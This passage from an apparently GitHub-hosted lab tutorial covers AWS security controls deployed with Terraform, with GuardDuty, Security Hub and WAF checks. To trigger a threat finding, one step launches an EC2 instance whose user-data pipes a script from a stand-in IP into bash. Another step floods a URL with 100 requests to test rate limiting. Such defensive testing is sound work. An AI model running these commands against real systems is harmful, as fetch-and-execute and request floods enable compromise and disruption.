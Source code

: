 4. **View Compliance Dashboard**
   ```bash
   # Get dashboard URL
   echo "Compliance Dashboard: https://console.aws.amazon.com/cloudwatch/home?region=us-west-2#dashboards:name=$(terraform output -raw dashboard_name)"
   
   # Check Config rule compliance
   aws configservice describe-compliance-by-config-rule
   ```

### Exercise 2: Security Controls Deployment

**Objective:** Implement comprehensive security controls with threat detection and response

**Steps:**

1. **Deploy Security Infrastructure**
   ```bash
   cd examples/02-security-controls
   
   # Deploy with security controls enabled
   terraform apply -var="enable_guardduty=true" \
                  -var="enable_security_hub=true" \
                  -var="enable_pci_dss=false"
   ```

2. **Test Threat Detection**
   ```bash
   # Generate test GuardDuty finding (use carefully in test environment)
   # This creates a finding for demonstration purposes
   
   # Create a test instance with known malicious behavior simulation
   aws ec2 run-instances \
     --image-id ami-0c02fb55956c7d316 \
     --instance-type t3.micro \
     --user-data "#!/bin/bash
   # Simulate suspicious activity (for testing only)
   curl -s http://198.51.100.1/malicious-script.sh | bash" \
     --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=test-threat}]'
   ```

3. **Monitor Security Events**
   ```bash
   # Check GuardDuty findings
   aws guardduty list-findings \
     --detector-id $(aws guardduty list-detectors --query 'DetectorIds[0]' --output text)
   
   # Check Security Hub findings
   aws securityhub get-findings \
     --filters '{"SeverityLabel":[{"Value":"HIGH","Comparison":"EQUALS"}]}' \
     --max-results 10
   ```

4. **Test WAF Protection**
   ```bash
   # If you have a web application behind the WAF, test rate limiting
   for i in {1..100}; do
     curl -s "http://your-application-url.com/" > /dev/null &
   done
   
   # Check WAF metrics
   aws cloudwatch get-metric-statistics \
     --namespace AWS/WAFV2 \
     --metric-name BlockedRequests \
     --dimensions Name=WebACL,Value=$(terraform output -raw waf_web_acl_name) \
                  Name=Region,Value=us-west-2 \
     --start-time $(date -u -d '1 hour ago' +%Y-%m-%dT%H:%M:%S) \
     --end-time $(date -u +%Y-%m-%dT%H:%M:%S) \
   ```
